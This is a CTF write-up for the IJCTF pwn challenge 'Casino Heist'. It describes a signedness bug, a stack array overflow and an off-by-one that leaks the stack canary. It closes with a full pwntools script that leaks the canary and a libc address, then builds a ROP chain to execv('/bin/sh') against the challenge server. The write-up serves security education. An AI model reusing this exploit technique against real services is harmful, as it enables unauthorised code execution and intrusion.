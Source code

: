 IJCTF Pwn Challenge Writeup by Shiro (Pycatchown sometimes)
# Casino Heist

## Part 1 - Reverse engineering

The code is terrible (of course, it's a challenge).

Sometimes ints are used, sometime it's int64, sometimes it's signed, sometimes it's not, well, we quickly identify at least one of the vulnerabilities without even really digging into the code.

We have a wallet, this wallet starts at 20 dollars, we can bet at least 5 dollars and no more than our wallet. If we fall at 0, the program exits itself, we can jackpot, and we can double the bet sometimes by adding a "m" at the end of our number.
Each bets are append into a array of uint64, which is located into the stack. It's of size 10, and isn't bounded by anything, which means that if we can make more than 10 bets without go bankrupt, we can overflow this array.

I didn't noticed the last bug instantly because I didn't realized the binary was compiled with stack smashing protection, but there is also an off by one in the print_bets function, which prints one element too far.
```c
for ( i = 0; ; ++i )
  {
    result = (unsigned int)idx_jour;
    if ( i > idx_jour )
      break;
    printf("Bet #%d: Value %ld\n", (unsigned int)i, a1[i]);
  }
```
Here we can see the condition is to break when i is strictly superior to idx_jour (the index used on the array we can overflow), since an array starts at 0, we can print one element too far.

## Part 2 - Exploitation

We're on a CTF so at this point I go straight away and fuzz a little, expecting the binary to bug out with negative or big values (thanks to the fact that the types are not coherent with each functions), so I did a little script that plays the binary over and over again until I win twice a bet with the maximum of my wallet, I tried to bet again with a value doubled, and I ended up with a negative wallet.

Since not everything is signed, that meant that my negative value was considered a very big number since the wallet on itself is stored within a uint64, which means that I could basically bet any values I wanted (well, almost). That also meant that I was not limited by luck anymore in order to apply as many bets as I wanted since my wallet was practically infinite.

So I tried to overflow the array of int64, and succeeded overflowing the binary until the saved rip.
However, the binary is compiled with stack protection flag, which means if we want to exploit, we'll have to either find a way not to overwrite the canary, or find a way to leak it.

Here comes the off by one on the print_bets function, which allows us to get the value we're about to overwrite before overwriting it.

At this point it's won. Since we have a leak we don't bother leaking anything thanks to the rop itself, we just leak the canary, the original value of the saved rsp (as we smash the main) so we can have a libc leak, and go straight for `execv("/bin/sh", NULL)`.

## 3 - Exploit code

```python
#!/usr/bin/env python
from pwn import *

exe = context.binary = ELF('boiler')
context.terminal = "gnome-terminal --geometry=110x60 -- bash -c".split(" ")


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("34.126.147.93", 2200)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


def exploit():
    offset_til_saved_rsp = 117

    ## Overflowing until the canary on the stack
    for i in range(offset_til_saved_rsp-3):
        x = io.sendlineafter(b"Enter bet value: ", "5", timeout=5)
        print(x)
        if x == b"":
            io.interactive()

    ## Leaking canary/libc adress and overflowing
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #117: Value ")
    canary = int(io.recvline())
    print(hex(canary))
    io.sendlineafter(b"Enter bet value: ", str(canary))
    io.sendlineafter(b"Enter bet value: ", "5")
    print("a") # Don't mind, it's just a trick to make the remote IO working
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #119: Value ")
    libcleak = int(io.recvline())
    print(hex(libcleak))
    libc = ELF("./libc-2.31.so")
    libc.address = libcleak- 0x270b3
    ##

    ##Because I'm lazy (Rop writing into the stack)
    rop = ROP(libc)
    rop.execv(next(libc.search(b"/bin/sh\x00")), 0)
    x = rop.chain()
    payload = [x[i:i+8] for i in range(0, len(x), 8)]
    for gadget in payload:
        gadget = u64(gadget)
        io.sendlineafter(b"Enter bet value: ", str(gadget))
    ##
    io.sendline("x") # exit main loop
    io.interactive()


while 1:
    io = start()

    io.sendlineafter(b"name:\n", b"a")
    io.sendlineafter(b"value: ", b"20")
    res = io.recvline()
    if b"lose" in res:
        io.close()
        continue
    else:
        io.sendlineafter(b"value: ", b"40")
        res = io.recvline()
        print(res)
        if b"lose" in res:
            io.close()
            continue
        else:
            #context.log_level = "DEBUG"
            io.sendlineafter(b"value: ", b"80m")
            #gdb.attach(io, gdbscript="b *(unsigned long long*)(&main+1322)")
            exploit()
            io.interactive()
            io.close()
            exit(0)
```

Thanks to the author if this challenge, lionaneesh. We don't see a lots of type mis-management challenges and more generally, I enjoy challenges wich doesn't only rely in one vulnerability, so this was a fun one to me.
